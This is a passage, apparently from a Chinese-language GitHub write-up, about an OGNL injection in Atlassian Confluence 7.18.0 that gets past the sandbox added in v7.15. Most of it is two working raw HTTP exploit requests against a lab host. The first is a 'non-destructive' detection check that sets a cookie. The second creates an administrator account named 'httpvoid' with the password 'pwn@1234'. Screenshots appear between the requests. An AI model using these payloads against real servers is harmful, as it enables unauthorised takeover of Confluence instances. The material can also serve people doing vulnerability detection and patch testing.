 ```
Connection: close
```

![image](https://user-images.githubusercontent.com/84888757/172956100-c51bba3f-6898-4e9f-988e-6b411594ca0a.png)

![image](https://user-images.githubusercontent.com/84888757/172956114-cd0d465f-b87d-4405-95d0-0067e3da561f.png)


## 4.2 Atlassian Confluence 7.18.0

网上现在已经公开的一些利用方式只针对 v7.14 及以下系列有效，因为从 v7.15 系列开始，Confluence 在 OGNL 表达式解析时加入了沙箱设置。

### 1、无损检测

```
GET /%24%7B%40com.atlassian.confluence.util.GeneralUtil@setCookie(%22key%22,%22aaaaaaaa%22)%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```

![image](https://user-images.githubusercontent.com/84888757/172956469-20e8c8e4-1b6c-46b2-9660-e75cee48f603.png)

### 2、添加管理员用户
用户名httpvoid，密码pwn@1234

```
GET /%24%7B%23this.getUserAccessor().addUser('httpvoid'%2C'pwn%401234'%2C'pwn%40httpvoid.com'%2C'HttpVoid'%2C%40com.atlassian.confluence.util.GeneralUtil%40splitCommaDelimitedString(%22confluence-administrators%2Cconfluence-users%22))%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```

![image](https://user-images.githubusercontent.com/84888757/172956655-be162a6b-f7c6-4e8b-a5a8-a995a50d857e.png)
